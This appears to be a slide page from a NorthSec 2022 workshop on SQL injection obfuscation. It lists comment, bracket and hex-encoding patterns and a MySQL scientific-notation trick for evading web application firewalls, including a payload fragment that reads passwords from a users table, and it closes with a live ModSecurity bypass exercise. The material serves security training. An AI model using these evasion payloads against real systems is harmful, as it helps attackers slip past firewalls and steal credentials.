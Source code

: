 
# SQLi Obfuscation Patterns

/\*Comments\*/
```sql
SELECT/**/name/**/FROM/**/users/**/WHERE/**/1=1
```
MSSQL [Square brackets]
```sql
SELECT"name"FROM[sys.databases]WHERE"id"=1
```
Oracle
```sql
SELECT 0x7461626c655f6e616d65 FROM all_tab_tables
```

---

## Scientific Expression in MySQL

Using notation such as `1.e` followed by non-numeric character...


```sql
1.e(ascii 1.e(substring(1.e(select password from users [...]
```

This is how MySQL/MariaDB will interpret 

```sql
(ascii (substring((select password from users [...]
```

Source: [A Scientific Notation Bug in MySQL left AWS WAF Clients Vulnerable to SQL Injection](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/) by Marc-Olivier Bergeron

---

# Exercise

Time to bypass one of the most robust WAF modsecurity!

[Live instance (only for NorthSec)](http://nsec2022.xss.lol/)

---
